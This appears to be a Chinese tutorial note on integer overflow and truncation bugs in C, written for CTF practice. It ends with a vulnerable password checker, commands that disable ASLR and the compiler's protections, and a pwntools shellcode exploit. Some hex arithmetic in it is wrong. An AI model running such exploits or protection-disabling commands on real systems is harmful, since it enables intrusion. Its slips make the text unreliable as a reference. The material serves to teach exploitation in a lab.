


# 前言

开始整数溢出的学习，这部分相对来说很简单了。

# 原理

64位的gcc-5.4的类型及字节数如下：

| 类型               | 字节         | 范围                                                         |
| ------------------ | ------------ | ------------------------------------------------------------ |
| short int          | 2byte(word)  | 0~32767(0~0x7fff) -32768~-1(0x8000~0xffff)                   |
| unsigned short int | 2byte(word)  | 0~65535(0~0xffff)                                            |
| int                | 4byte(dword) | 0~2147483647(0~0x7fffffff) -2147483648~-1(0x80000000~0xffffffff) |
| unsigned int       | 4byte(dword) | 0~4294967295(0~0xffffffff)                                   |
| long int           | 8byte(qword) | 正: 0~0x7fffffffffffffff 负: 0x8000000000000000~0xffffffffffffffff |
| unsigned long int  | 8byte(qword) | 0~0xffffffffffffffff                                         |


## 溢出

溢出指的是有符号数。这里以short举例，之后也都是。

上溢出是`0x7fff+1=0x8fff`，由正变负。

下溢出时`0x8000-1 = 0x7ffff`，由负变正。

## 回绕

对于无符号数来说是回绕，也是两种：

```
0xffff + 1 = 0x0000
0x0000 - 1 = 0xffff
```


# 漏洞场景

## 错误的类型转换

### 大范围转小范围

其实就是精度丢失了，导致的漏洞。而小范围转大范围则不会有这种问题。

### 有符号和无符号的转换

直接看wiki的例子了：

```c
int main(void)
{
    int len, l;
    char buf[11];

    scanf("%d", &len);
    if (len < 10) {
        l = read(0, buf, len);
        *(buf+l) = 0;
        puts(buf);
    } else
        printf("Please len < 10");        
}
```

本来限制了输入的长度必须比10小，但是read函数：

```c
ssize_t read(int fd, void * buf, size_t count);
```

`size_t`是无符号的类型，这就导致了漏洞：




# 例题

这部分内容比较简单，直接以CTF-ALL-IN-One上的例子来结束吧：

```c
#include<stdio.h>
#include<string.h>
void validate_passwd(char *passwd) {
    char passwd_buf[11];
    unsigned char passwd_len = strlen(passwd);
    if(passwd_len >= 4 && passwd_len <= 8) {
        printf("good!\n");
        strcpy(passwd_buf, passwd);
    } else {
        printf("bad!\n");
    }
}

int main(int argc, char *argv[]) {
    if(argc != 2) {
        printf("error\n");
        return 0;
    }
    validate_passwd(argv[1]);
}
```

```shell
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -z execstack vuln.c -o vuln -m32
```

把地址随机化关闭来方便攻击。

因为`passwd_len`是无符号的，存在一个截断，比如strlen的结果是0x104，那么`passwd_len`得到的就是0x04，成功绕过。

接下来就是写shellcode到栈上面然后控制返回地址到shellcode上了。

EXP：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
ret_addr = 0xffffcef8+4+4+4
shellcode = asm(shellcraft.sh())
payload = flat([24*'a',ret_addr,'a'*4,shellcode,(0x104-72)*'a'])
p = process(argv=['./vuln',payload])
#p = gdb.debug(["./vuln",payload],"break validate_passwd")
p.recv()
p.interactive()

```

